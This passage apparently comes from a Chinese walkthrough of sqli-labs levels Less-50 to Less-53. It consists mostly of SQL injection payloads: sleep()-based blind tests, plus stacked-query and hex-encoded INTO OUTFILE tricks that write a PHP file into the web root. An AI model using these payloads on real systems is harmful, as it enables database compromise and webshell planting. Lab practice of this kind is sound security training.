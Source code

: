 ![101](/medias/sqli-labs/101.png)

怎么跟`Less-48`一样？翻看源码，发现这道题可以堆叠注入了

![102](/medias/sqli-labs/102.png)

```sql
?sort=1;select '<?php phpinfo();?>' into outfile'/var/www/html/Less-50/1.php'%23
```

## Less-51

时间盲注猜出后台是，单引号类型

```sql
?sort=0' or if(1=1,sleep(5),sleep(5))%23
```

![103](/medias/sqli-labs/103.png)


末尾写马、堆叠写马、盲注

```sql
?sort=0' into outfile '/var/www/html/Less-51/1.php' lines terminated by 0x3c3f3d706870696e666f28293b3f3e%23
```

```sql
?sort=0';select '<?php phpinfo();?>' into outfile'/var/www/html/Less-51/1.php'%23
```

## Less-52

时间盲注猜出后台是，整型

```sql
?sort=0 or if(1=1,sleep(5),sleep(5))%23
```

末尾写马、堆叠写马、盲注


发现个小问题，前面`Less-51`写马的时候，字符型`order by '0'`成功写马，这道题整数型`order by 0`就失败了，换成`order by 1`可以正常写入

```sql
?sort=1 into outfile '/var/www/html/Less-52/1.php' lines terminated by 0x3c3f3d706870696e666f28293b3f3e%23
```

```sql
?sort=1;select '<?php phpinfo();?>' into outfile'/var/www/html/Less-52/1.php'%23
```

## Less-53

时间盲注测试出后台是，单引号类型

```sql
?sort=0' or if(1=1,sleep(5),sleep(5))%23
```
